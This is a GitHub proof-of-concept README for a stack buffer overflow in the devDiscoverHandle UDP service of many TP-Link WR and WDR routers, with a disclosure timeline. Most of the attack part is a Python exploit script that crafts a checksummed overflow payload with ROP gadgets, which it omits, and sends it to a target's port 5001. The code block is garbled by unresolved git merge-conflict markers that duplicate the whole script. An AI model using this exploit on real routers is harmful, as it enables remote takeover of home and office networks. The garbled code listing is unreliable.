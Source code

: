 # TP-Link-poc

TP-Link router have a stack overflow in devDiscoverHandle server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description

This vulnerability happen when  devDiscoverHandle  receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![](./1.png)

## Poc

Refer to this video: [poc_video.mkv](./poc_video.mkv)

**poc**

```
<<<<<<< HEAD
import sys
import struct
import requests
from pwn import *
def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

magic = '\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
pad2 = '  ' + gadget.ljust(602-8-0x1d*0) + gadget1
tmp = '\x00\x05'+p16(len(pad2))+pad2
# gadget1 and gadget is ROPchain, here we don't show it.
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload = magic + checksum + p16(len(tmp)) + '\x00\x00' + tmp

udpsever=socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
udpsever.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, 2)
udpsever.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
udpsever.bind(('', MCAST_PORT))
mreq = struct.pack('4sl', socket.inet_aton(MCAST_GRP), socket.INADDR_ANY)
udpsever.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq)

udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload,(sys.argv[1],5001))
=======
import sys
import struct
import requests
from pwn import *
def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

magic = '\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
pad2 = '  ' + gadget.ljust(602-8-0x1d*0) + gadget1
tmp = '\x00\x05'+p16(len(pad2))+pad2
# gadget1 and gadget is ROPchain, here we don't show it.
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload = magic + checksum + p16(len(tmp)) + '\x00\x00' + tmp

udpsever=socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
udpsever.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, 2)
udpsever.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
udpsever.bind(('', MCAST_PORT))
mreq = struct.pack('4sl', socket.inet_aton(MCAST_GRP), socket.INADDR_ANY)
udpsever.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq)

udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload,(sys.argv[1],5001))
>>>>>>> 29ef439fb8d19ce806f84b1f7feb6ed6a51d74c8
udp.close()
```

## Timeline
2020.11.7 show in TFC conntest

2020.11.15 report to CVE and TP-Link
